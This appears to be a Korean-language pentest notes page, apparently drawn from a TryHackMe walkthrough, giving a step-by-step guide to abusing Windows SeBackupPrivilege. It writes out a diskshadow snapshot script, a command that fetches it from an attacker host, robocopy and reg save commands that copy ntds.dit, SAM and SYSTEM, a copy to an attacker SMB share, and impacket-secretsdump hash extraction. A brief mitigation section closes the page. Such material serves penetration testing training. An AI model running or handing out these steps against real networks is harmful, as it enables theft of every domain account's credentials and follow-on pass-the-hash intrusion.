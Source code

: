 ```yaml
---
layout: page
title: SeBackupPrivilege
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}


# SeBackupPrivilege를 이용한 시스템 파일 탈취 가이드

`SeBackupPrivilege`는 이름 그대로 시스템 백업을 위해 설계된 권한입니다. 이 권한을 가진 사용자는 파일의 접근 제어 목록(ACL)에 상관없이 시스템의 모든 파일을 읽을 수 있습니다. 이 때문에 `SYSTEM`과 `SAM` 레지스트리 하이브, 그리고 도메인 컨트롤러의 `NTDS.dit` 파일과 같은 치명적인 시스템 파일을 탈취하는 데 악용될 수 있습니다.
`SeRestorePrivilege` 권한이 있어도 사용 가능함.

https://infosecwriteups.com/razorblack-walkthrough-thm-fde0790c182f

### **공격 원리: 볼륨 섀도 복사본 (Volume Shadow Copy)**

`NTDS.dit`나 `SAM` 파일은 운영체제가 항상 사용 중이라 파일을 잠그고(Lock) 있기 때문에, `SeBackupPrivilege`가 있더라도 직접 복사할 수는 없습니다. 이 잠금을 우회하기 위해 **볼륨 섀도 복사본(VSS)** 기술을 사용합니다.

1.  VSS를 이용해 현재 시스템 드라이브(C:)의 스냅샷(섀도 복사본)을 생성합니다.
2.  이 스냅샷을 새로운 드라이브(예: X:)로 마운트합니다.
3.  스냅샷 내의 파일들은 잠겨있지 않으므로, 마운트된 새 드라이브에서 자유롭게 복사할 수 있습니다.
4. 새로운 드라이브(백업)에 대해서는 더 많은 접근 권한을 갖게 되며, 이 권한을 이용해 최종적으로 `ntds.dit`와 `system.hive` 파일을 확보. 이때 `win-rm`과 같은 도구를 사용해 공격자의 로컬 머신으로 파일을 가져오는 것이 좋음.
5. 파일을 확보한 후에는 해시를 크래킹하거나 Pass-the-Hash 공격 등을 시도할 수 있음.

---

### **1. 취약점 식별**

- **목표:** 현재 사용자가 `SeBackupPrivilege` 권한을 보유하고 있는지 확인합니다.

```powershell
whoami /priv
```

- **확인 사항:** 출력된 목록에 `SeBackupPrivilege`가 `Enabled` 상태로 있는지 확인합니다.

---

### **2. 단계별 공격 절차**

#### **1단계: `diskshadow` 스크립트 준비**
- 공격자 Kali에서 VSS 생성을 자동화하기 위한 `diskshadow`용 스크립트 파일을 만듭니다.

```ini
# 컨텍스트를 영구적, 비대화형으로 설정
# C: 드라이브를 섀도 복사본 대상으로 추가
# 섀도 복사본 생성
# 생성된 섀도 복사본을 X: 드라이브로 노출

set context persistent nowriters
add volume c: alias viper
create
expose %viper% x:
```

#### **2단계: 파일의 줄 끝 형식(line ending)을 변환
- Unix 형식의 텍스트 파일을 DOS/Windows 형식으로 변환합니다.

```bash
unix2dos viper.dsh
```


#### **3단계: 스크립트 실행 및 파일 복사**
- 준비한 스크립트를 타겟 시스템에 업로드하고 `diskshadow`로 실행하여, 민감한 파일들을 쓰기 가능한 위치(예: `C:\Temp`)로 복사합니다.

```powershell
powershell -c iwr -uri http://[kali_ip]/viper.dsh -o viper.dsh
diskshadow /s viper.dsh
robocopy /b x:\windows\ntds . ntds.dit

reg save hklm\system c:\windows\temp\system
```

- 이 방법을 더 선호합니다 (하지만 이는 로컬 사용자에게만 해당됩니다. 만약 모든 도메인 사용자의 정보가 필요하다면, `ntds.dit` 파일이 필요합니다)

```powershell
cd c:\windows\tasks
diskshadow /s viper.dsh
robocopy /b x:\windows\ntds . ntds.dit

reg save hklm\sam c:\Windows\tasks\sam
reg save hklm\system c:\Windows\tasks\system

# kali에서 smbserver 오픈하고 Target에서 연결 후
# Target -> Kali
copy ntds.dit,sam,system \\[kali_ip]\share\

# Kali -> Target
# copy \\[kali_ip]\share\test.txt
```

#### **4단계: 파일 유출 및 해시 덤프**
- 복사된 `ntds.dit`, `SYSTEM`, `SAM` 파일을 공격자 머신으로 다운로드합니다.
- `impacket-secretsdump`를 사용하여 파일로부터 모든 계정의 NTLM 해시를 추출합니다.

```bash
# 도메인 컨트롤러에서 탈취한 경우
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL

# 일반 시스템에서 탈취한 경우
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
impacket-secretsdump -ntds ntds.dit -sam sam -system system local
```

---

### **3. 방어 (Mitigation)**

- **최소 권한의 원칙:** `SeBackupPrivilege`는 백업 솔루션이나 시스템 관리자 등 반드시 필요한 계정에만 부여해야 합니다.
- **모니터링:** `diskshadow.exe`의 실행이나 VSS 관련 이벤트 로그(ID 7001)를 모니터링하여 비정상적인 백업 활동을 탐지할 수 있습니다.

